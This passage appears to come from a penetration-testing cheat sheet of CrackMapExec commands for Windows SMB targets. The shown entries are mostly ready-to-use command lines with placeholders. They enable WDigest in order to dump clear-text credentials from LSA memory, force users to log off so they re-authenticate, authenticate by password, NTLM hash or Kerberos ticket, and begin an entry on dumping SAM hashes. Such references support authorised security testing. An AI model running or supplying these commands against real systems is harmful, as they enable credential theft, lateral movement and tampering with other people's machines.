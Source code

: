 enable/disable the WDigest provider and dump clear-text credentials from LSA memory.

```bash
cme smb <target_ip> -u <user|Administrator> -p '<password>' --local-auth --wdigest enable
```

## cme - loggout user
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #warning/modify_target #cat/POSTEXPLOIT

Can be useful after enable wdigest to force user to reconnect

```bash
cme smb <target_ip> -u <user> -p '<password>' -x 'quser'
cme smb <target_ip> -u <user> -p '<password>' -x 'logoff <id_user>' --no-output
```

## cme - local-auth
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
cme smb <target_ip> -u <user> -p <password> --local-auth
```

## cme - local-auth with hash
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

```bash
cme smb <target_ip> -u <user> -H <hash> --local-auth
```

## cme - domain auth
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
cme smb <target_ip> -u <user> -p <password> -d <domain>
```

## cme - kerberos auth
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

Previously import ticket : 
export KRB5CCNAME=/tmp/ticket.ccache

```bash
cme smb <target_ip> --kerberos
```

## cme - Dump SAM
#platform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump SAM hashes using methods from secretsdump.py
You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account
